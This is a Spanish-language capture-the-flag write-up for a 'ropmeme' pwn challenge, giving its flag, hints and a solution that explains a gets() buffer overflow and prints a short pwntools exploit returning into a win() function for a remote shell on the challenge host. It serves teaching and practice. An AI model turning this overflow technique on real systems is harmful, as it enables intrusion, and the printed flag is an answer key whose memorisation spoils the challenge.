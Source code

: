 # Nombre: `ropmeme`
### Dificultad: `media`
### Categoría: `pwn`
### Autor: [Cae](https://c4ebt.github.io/)
### Flag: `DCCTF{pwn_c0ld3st_c4t3g0ry}`

### Descripción:
Recuperamos este binario de los tiempos en que Intro a la Progra se hacía en C y lo pusimos a correr en `ropmeme.dcctf.xyz:80`. Un montón de novatos programando en un lenguaje sin memory safety; que podría salir mal?

### Hint 1:
`man gets`

### Hint 2:
```
Alister: oye Cae el nombre de uno de tus desafíos tiene un typo
Cae: no es un typo ;)
```

### Solución:
Writeup muy superficial. Los conceptos que están por detrás del desafío son más profundos y las técnicas más complejas.
El source usa gets() para leer a un buffer de 64 bytes. gets() está deprecated, tal como indica su manpage: "Never use this function. Never use gets().  Because it is impossible to tell without knowing the data in advance how many characters gets() will read, and because gets() will continue to store characters past the end of the buffer, it is extremely dangerous to use.  It has been used to break computer security". Entonces, se tiene un buffer overflow en la call a gets. Usando la herramienta checksec se puede ver que el binario no tiene ni Canary ni PIE, solo NX, por lo que se debería poder explotar con un ROP. Haciendo un reversing mínimo se puede encontrar la función win(), que hace la syscall 0x3b (execve) con una shell como argumento, por lo que podemos llamarla para obtener una shell remota. Finalmente, el exploit usando pwntools queda así:

```python
from pwn import *

context.log_level = 'DEBUG'
#p = process("./ropmeme")
p = remote("ropmeme.dcctf.xyz", 80)

junk = "A"*72
payload = junk + p64(0x00401176)

p.sendline(payload)
p.interactive()
```
